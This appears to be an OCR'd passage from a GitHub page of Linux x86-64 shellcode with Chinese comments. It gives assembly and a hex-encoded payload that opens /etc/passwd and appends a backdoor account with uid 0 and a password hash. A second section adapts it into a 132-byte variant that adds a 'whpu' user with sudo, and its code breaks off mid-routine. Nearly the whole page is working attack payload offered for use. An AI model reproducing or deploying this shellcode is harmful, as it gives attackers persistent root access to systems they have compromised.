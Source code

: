 ```
    mov rdi,rax     
    xor  rax,rax
    mov  al,  1    
    syscall		;write
    
    ;sys_close(uint fd)
    xor rdi,        rdi
    mov edi,        [rbp - 4] 
    xor rax,        rax
    mov al,     3   
    syscall				;关闭close
    
  
    xor rax,rax
    mov al, 60      
    xor rbx,rbx       
    syscall    ;退出
```

```
\x48\x31\xdb\xbb\xff\x73\x77\x64\x48\xc1\xeb\x08\x53\x48\xbb\x2f\x65\x74\x63\x2f\x70\x61\x73\x53\x48\xbb\xff\x6e\x2f\x62\x61\x73\x68\x0a\x48\xc1\xeb\x08\x53\x48\xbb\x72\x6f\x6f\x74\x3a\x2f\x62\x69\x53\x48\xbb\x67\x3a\x30\x3a\x30\x3a\x3a\x2f\x53\x48\xbb\x35\x74\x58\x4b\x55\x6b\x55\x46\x53\x48\xbb\x74\x30\x72\x3a\x33\x55\x67\x54\x53\x48\x89\xe3\x55\x48\x89\xe5\x48\x83\xec\x10\x48\x89\x5d\xf0\x66\xbe\x01\x04\x48\x89\xdf\x48\x83\xc7\x28\x48\x31\xc0\xb0\x02\x0f\x05\x89\x45\xfc\x48\x89\xd9\x48\x31\xd2\xb2\x27\x48\x89\xce\x48\x89\xc7\x48\x31\xc0\xb0\x01\x0f\x05\x48\x31\xff\x8b\x7d\xfc\x48\x31\xc0\xb0\x03\x0f\x05\x48\x31\xc0\xb0\x3c\x48\x31\xdb\x0f\x05
```

### 3.改 添加普通用户  132bytes   添加    whpu::66:6::/home/WHPU:/bin/bash (加sudo)

whpu::66			36363a3a75706877

:6::/hom			6d6f682f3a3a363a

e/whpu:/					2f3a757068772f65

bin/bash				687361622f6e6962

```
; username: WHPU
; password: 
; uid: 66     			//适当更改
; gid: 6				//适当更改
; home: /home/WHPU    //适当更改
; shell: /bin/bash
```

```
section .text
global _start
_start:

    xor rbx,    rbx
    mov     ebx,    0x647773FF
    shr     rbx,    8
    push    rbx                             ;string \00dws
    mov     rbx,    0x7361702f6374652f
    push    rbx                             ;string sap/cte/
    
    xor rax,rax
    push rax
    
    mov     rbx,    0x687361622f6e6962
    push    rbx                            
    mov     rbx,    0x2f3a757068772f65
```
